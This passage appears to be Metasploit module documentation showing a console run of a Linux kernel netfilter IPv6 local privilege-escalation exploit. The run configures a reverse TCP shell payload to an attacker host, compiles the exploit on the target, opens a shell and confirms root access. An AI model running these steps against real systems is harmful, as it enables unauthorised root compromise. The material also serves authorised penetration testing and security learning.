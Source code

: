     [*] Auxiliary module execution completed

#### Escalate

    resource (ipv6.rc)> use exploit/linux/local/netfilter_priv_esc_ipv6
    resource (ipv6.rc)> set verbose true
    verbose => true
    resource (ipv6.rc)> set payload linux/x64/shell/reverse_tcp
    payload => linux/x64/shell/reverse_tcp
    resource (ipv6.rc)> set session 1
    session => 1
    resource (ipv6.rc)> set target 2
    target => 2
    resource (ipv6.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ipv6.rc)> check
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*]  The target appears to be vulnerable.
    resource (ipv6.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing to /tmp/cxvXS1Et.c (5207 bytes)
    [*] Max line length is 65537
    [*] Writing 5207 bytes in 1 chunks of 18911 bytes (octal-encoded), using printf
    [*] Compiling /tmp/cxvXS1Et.c
    [*] Writing to /tmp/euPEmXEw.c (1765 bytes)
    [*] Max line length is 65537
    [*] Writing 1765 bytes in 1 chunks of 6430 bytes (octal-encoded), using printf
    [*] Compiling /tmp/euPEmXEw.c
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (38 bytes) to 192.168.2.137
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.137:32774) at 2016-10-25 14:57:37 -0400
    [+] Deleted /tmp/cxvXS1Et
    [+] Deleted /tmp/euPEmXEw
    
    2709367386
    bsyYStlRnxfJBPOnzMtRuBJObUgtuapE
    true
    lNkKUmXZYXwgkjdSYQuzsDlsiEdsUBIy
    kReTxDWDCaXVfucIOVlrLLlDnZPJgCPD
    dsosNUMKyJSOXrnOXqmisCSZhuUkaFMq
    true
    OoXosKyvbZlKXeVxxKWZWVjJGCPtbOha
    KykivOmeGNTTexEvUQckdNBPucVexZMe
    vXkjDSkMGfFVLQNNwlbUQZZywbEmqxPQ
    whoami
    root
    uname -a
    Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
